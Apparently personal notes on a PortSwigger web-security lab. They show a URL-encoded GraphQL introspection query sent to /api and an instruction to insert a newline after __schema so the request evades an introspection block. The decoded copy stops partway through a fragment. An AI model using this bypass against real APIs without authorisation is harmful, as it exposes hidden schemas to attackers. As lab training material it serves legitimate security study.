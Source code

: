 ```
/api?query=query+IntrospectionQuery+%7B%0D%0A++__schema+%7B%0D%0A++++queryType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++mutationType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++subscriptionType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++types+%7B%0D%0A++++++...FullType%0D%0A++++%7D%0D%0A++++directives+%7B%0D%0A++++++name%0D%0A++++++description%0D%0A++++++args+%7B%0D%0A++++++++...InputValue%0D%0A++++++%7D%0D%0A++++%7D%0D%0A++%7D%0D%0A%7D%0D%0A%0D%0Afragment+FullType+on+__Type+%7B%0D%0A++kind%0D%0A++name%0D%0A++description%0D%0A++fields%28includeDeprecated%3A+true%29+%7B%0D%0A++++name%0D%0A++++description%0D%0A++++args+%7B%0D%0A++++++...InputValue%0D%0A++++%7D%0D%0A++++type+%7B%0D%0A++++++...TypeRef%0D%0A++++%7D%0D%0A++++isDeprecated%0D%0A++++deprecationReason%0D%0A++%7D%0D%0A++inputFields+%7B%0D%0A++++...InputValue%0D%0A++%7D%0D%0A++interfaces+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A++enumValues%28includeDeprecated%3A+true%29+%7B%0D%0A++++name%0D%0A++++description%0D%0A++++isDeprecated%0D%0A++++deprecationReason%0D%0A++%7D%0D%0A++possibleTypes+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A%7D%0D%0A%0D%0Afragment+InputValue+on+__InputValue+%7B%0D%0A++name%0D%0A++description%0D%0A++type+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A++defaultValue%0D%0A%7D%0D%0A%0D%0Afragment+TypeRef+on+__Type+%7B%0D%0A++kind%0D%0A++name%0D%0A++ofType+%7B%0D%0A++++kind%0D%0A++++name%0D%0A++++ofType+%7B%0D%0A++++++kind%0D%0A++++++name%0D%0A++++++ofType+%7B%0D%0A++++++++kind%0D%0A++++++++name%0D%0A++++++%7D%0D%0A++++%7D%0D%0A++%7D%0D%0A%7D%0D%0A
```

From <https://portswigger.net/web-security/graphql/lab-graphql-find-the-endpoint> 

Modify the query to include a newline character after __schema and resend. 

From <https://portswigger.net/web-security/graphql/lab-graphql-find-the-endpoint> 



  ```
/api?query=query IntrospectionQuery {
  __schema
 {
    queryType {
      name
    }
    mutationType {
      name
    }
    subscriptionType {
      name
    }
    types {
      ...FullType
    }
    directives {
      name
      description
      args {
        ...InputValue
      }
    }
  }
}

fragment FullType on __Type {
  kind
  name
  description
  fields(includeDeprecated: true) {
    name
    description
    args {
      ...InputValue
    }
    type {
      ...TypeRef
    }
    isDeprecated
  ```